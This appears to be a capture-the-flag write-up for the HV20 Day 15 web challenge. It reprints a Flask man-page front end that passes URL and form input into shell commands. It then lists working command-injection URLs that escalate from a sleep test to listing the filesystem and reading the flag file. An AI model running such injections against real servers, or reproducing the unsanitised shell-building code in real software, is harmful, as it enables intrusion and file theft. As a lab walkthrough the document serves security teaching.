

[← Day 14](../day14/) / [↑ TOC](../README.md) / [→ Day 16](../day16/)


# Day 15 / HV20.15 Man Commands, Server Lost


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   `#penetration-testing` `#web-security`
* Level:  Hard

### Introduction

Elf4711 has written a cool front end for the linux man pages. Soon after
publishing he got pwned. In the meantime he found out the reason and improved
his code. So now he is sure it's unpwnable.


### Notes

* You need to start the web application from the `RESOURCES` section on top
* This challenge requires a VPN connection into the Hacking-Lab. Check out the
  document in the `RESOURCES` section.

### Hints

* Don't miss the source code link on the man page


### Resources

* Man Commands server instance
* Student VPN instructions


## Solution

The challenge's web application looks like this:



… and here is the web app's source code …

```python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
```


### Interpreting the attack possibilities

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
One of the three entry points is better than the others for an injection. It's
the one with `@app.route('/man/')`. Through that it is even possible to print
results back to the web page as the `command` variable is **not** parsed there.

`return render_template('manpage.html', command=command, manpage=htmlStripped)`

And that means that it's not necessary to use a reverse shell contrary to what
the challenge description says.

Here follows a list of increasingly better injections …

* `/man/1/man; sleep 5; %23`

   Output: ``

   This injection just makes the server wait for 5 seconds in order to verify 
   that an injection is possible.

* `/man/1/man; echo "oooooohhhhhhh my" ; %23`

   Output: `ohhhhhhh my`

   This injection shows that output to the webpage is possible. It also
   demonstrates that the first 5 characters from an output get cut away.

* `/man/1/man; echo "12345"; pwd; echo ""; ls; %23`

   Output: `/ bin boot dev etc flag home lib lib64 media mnt opt […]`

   This injection shows that access on the remote file system works perfectly
   (except for printing newline characters).

* `/man/1/man; echo "12345"; cat flag; echo " "; %23`

   Output: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

   This injection gets the flag.

--------------------------------------------------------------------------------

Flag: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

[← Day 14](../day14/) / [↑ TOC](../README.md) / [→ Day 16](../day16/)
